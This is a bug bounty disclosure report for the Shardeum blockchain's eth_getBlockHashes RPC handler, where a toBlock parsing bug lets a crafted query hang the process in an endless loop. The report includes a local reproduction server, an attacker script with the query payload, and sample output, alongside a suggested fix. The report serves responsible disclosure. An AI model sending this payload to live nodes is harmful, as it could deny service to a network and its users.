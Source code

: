 
# Infinite loop in shardeum

Submitted on Wed Jul 31 2024 15:32:23 GMT-0400 (Atlantic Standard Time) by @riproprip for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33872

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)
- RPC API crash affecting projects with greater than or equal to 25% of the market capitalization on top of the respective layer

## Description
## Brief/Intro
Infinite loop in shardeum handler for eth_getBlockHashes route. 


## Vulnerability Details
The eth_getBlockHashes handler does not correctly constrain the fromBlock / toBlock query parameters. This bug allows to put the process into an infinite for loop. That crashes the process that is answering this request.

The relevant function is in https://github.com/shardeum/shardeum/blob/c7b10c2370028f7c7cbd2a01839e50eb50faa904/src/index.ts#L1275-L1295.


I would have loved to suss out the impact a little more, but can't find instructions that make the repos run (on my machine).
Following assumptions probably lead the way in deciding if this is just an rpc crash or can take down every node in the network simply by sending a request:
* handlers behind the externalApiMiddleware are exposed to the outside
* The attacker is allowed to send one request for every OS process running the eth_getBlockHashes handler
* The OS processes running shardeum/src/index.ts L1275-1295 is also responsible/relevant to the network confirming new transaction.

If above assumption don't all hold up or are not enough to  qualify for the "prevent network from confirming transactions" impact, please keep in mind the following about infinite loops.:
* They don't produce an error (hard to monitor for)
* The process does not die (hard to recover from)
* The process uses up as much of the CPU as the OS will allow

This in effect could take down other processes running on the server, depending on the configuration of the node, and the hardware.

## Impact Details
The process handling a malicious request gets stuck in an infinite loop. 

## Fix suggestion
Make sure the distance between fromBlock and toBlock in the eth_getBlockHashes handler something meaningful.
        
## Proof of concept
# code
## Minimal code to reproduce shardeum/src/index.ts (save as server.js)
``` 
const express = require('express');
const app = express();
const port = 3000;

// external data to GET handler
let ShardeumFlags = {maxNumberOfOldBlocks: 99};
let latestBlock = 999;
let readableBlocks= [];

// original typescript code
/* 
  shardus.registerExternalGet('eth_getBlockHashes', externalApiMiddleware, async (req, res) => {
    let fromBlock: any = req.query.fromBlock
    let toBlock: any = req.query.toBlock

    if (fromBlock == null) return res.json({ error: 'Missing fromBlock' })
    if (typeof fromBlock === 'string') fromBlock = parseInt(fromBlock)
    if (fromBlock < latestBlock - ShardeumFlags.maxNumberOfOldBlocks) {
      // return max 100 blocks
      fromBlock = latestBlock - ShardeumFlags.maxNumberOfOldBlocks + 1 // 1 is added for safety
    }
    if (toBlock == null) toBlock = latestBlock
    if (typeof toBlock === 'string') fromBlock = parseInt(toBlock)
    if (toBlock > latestBlock) toBlock = latestBlock

    const blockHashes = []
    for (let i = fromBlock; i <= toBlock; i++) { !!!!!! LOOP RUNS FOREVER WITH RIGHT INPUTFOREVER
      const block = readableBlocks[i]
      if (block) blockHashes.push(block.hash)
    }
    return res.json({ blockHashes, fromBlock, toBlock })
  })
*/

// translated GET handler as minimal expressjs
let fn = async (req, res) => {
  let fromBlock/*: any*/ = req.query.fromBlock
  let toBlock/*: any*/ = req.query.toBlock

  if (fromBlock == null) return res.json({ error: 'Missing fromBlock' })
  if (typeof fromBlock === 'string') fromBlock = parseInt(fromBlock)
  if (fromBlock < latestBlock - ShardeumFlags.maxNumberOfOldBlocks) {
    // return max 100 blocks
    fromBlock = latestBlock - ShardeumFlags.maxNumberOfOldBlocks + 1 // 1 is added for safety
  }
  if (toBlock == null) toBlock = latestBlock
  if (typeof toBlock === 'string') fromBlock = parseInt(toBlock)
  if (toBlock > latestBlock) toBlock = latestBlock

  const blockHashes = []
  for (let i = fromBlock; i <= toBlock; i++) { /// !!!!!! LOOP RUNS FOREVER WITH RIGHT INPUT
  	console.log('ITERATION', i); // !!!!! see?
    const block = readableBlocks[i]
    if (block) blockHashes.push(block.hash)
  }
  return res.json({ blockHashes, fromBlock, toBlock })
};

// express code
app.get('/', fn)
app.listen(port, () => {
  console.log(`Server running at http://localhost:${port}`);
});
```


## attack code (save as attacker.js)
```

const axios   = require("axios");
const fs      = require("fs");
const payload = "fromBlock=null&toBlock=-99999999999999999";

function attack() {
	axios.get("http://localhost:3000/?" + payload, {timeout: 1000})
     .then(
	     res => {
		     console.log('Status ', res.status);
		     console.log(res.data);
		     process.exit();
	     },
	     err => {console.log('ERR', err.message);}
     )
}

attack();
```

# run
## server
```
npm install express
node server.js
```
## attacker
```
npm install axios
node attacker.js
```

# output
## server
```
Server running at http://localhost:3000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
ITERATION -100000000000000000
.... # this keeps on going forever
```

## client
```
ERR timeout of 1000ms exceeded
```